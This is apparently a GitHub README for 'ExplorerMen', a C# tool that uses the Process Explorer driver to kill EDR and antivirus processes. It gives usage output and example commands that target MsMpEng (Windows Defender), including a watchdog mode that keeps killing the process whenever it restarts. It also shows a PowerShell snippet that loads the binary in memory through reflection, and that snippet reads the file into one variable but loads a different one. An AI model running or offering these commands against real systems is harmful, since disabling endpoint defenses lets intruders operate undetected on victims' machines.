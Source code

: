 C# implementation of [Passenger](https://github.com/Yair-Men/Passenger)

Basically, using ProcExp Driver to kill EDRs.

One mode kills the process once, while the second (`/watchdog`) keeps monitoring for when a new process is up and kills it again (each time)



```PowerShell
PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe
[-] Failed to parse args
[!] Try to use /usage, /help, /examples


PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe /usage
==== Usage ====
ExplorerMen.exe { /install:<DRIVER_FILE_FULL_PATH> || /service:<SERVICE_NAME> } { /pid:<PID> || /name:<PROCESS_NAME> } [/watchdog]


PS C:\Users\Windy> .\source\repos\ExplorerMen\bin\x64\Release\ExplorerMen.exe /examples
==== Example ====
[!] Load driver at C:\driver.sys as service with the name nonsense and kill process with id 123
ExplorerMen.exe /install:C:\driver.sys /service:nonsense /pid 123

[!] Start the service nonsense and kill process with name MsMpEng.exe
ExplorerMen.exe /service:nonsense /name:MsMpEng

[!] Start the service nonsense and kill process with id 123. Keep monitor the process, kill it everytime it is up again
ExplorerMen.exe /service:nonsense /pid:123 /watchdog
```


Use reflection from PowerShell:
```PowerShell
# Load the assembly into a variable
$asm = [IO.File]::ReadAllBytes("C:\Users\Windy\source\ExplorerMen\bin\x64\Release\ExplorerMen.exe")

# Use reflection to load it into current process memory space
[System.Reflection.Assembly]::Load($blob)

# Launch the app, search for the service name procexp152 and kill process named msmpeng
[ExplorerMen.Program]::Main("/service:procexp152 /name:msmpeng".Split())
```
